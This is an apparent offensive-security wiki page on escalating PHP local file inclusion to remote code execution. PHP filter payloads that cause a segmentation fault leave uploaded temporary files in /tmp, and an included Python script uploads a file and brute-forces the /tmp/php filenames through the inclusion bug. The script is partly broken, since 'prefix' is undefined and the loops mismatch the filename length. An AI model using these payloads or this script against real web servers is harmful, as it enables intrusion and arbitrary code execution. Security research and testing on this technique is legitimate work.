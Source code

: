 # LFI2RCE via Segmentation Fault


According to the writeups [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (second part) and [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view), the following payloads caused a segmentation fault in PHP:

```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```

You should know that if you **send** a **POST** request **containing** a **file**, PHP will create a **temporary file in `/tmp/php<something>`** with the contents of that file. This file will be **automatically deleted** once the request was processed.

If you find a **LFI** and you manage to **trigger** a segmentation fault in PHP, the **temporary file will never be deleted**. Therefore, you can **search** for it with the **LFI** vulnerability until you find it and execute arbitrary code.

You can use the docker image [https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0) for testing.

```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = prefix + i + j + k
                            url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
                            print url
                            response = requests.get(url)
                            if 'spyd3r' in response.content:
                                print "[+] Include success!"
                                return True


def main():
    bruteforce(charset)

if __name__ == "__main__":
    main()
```



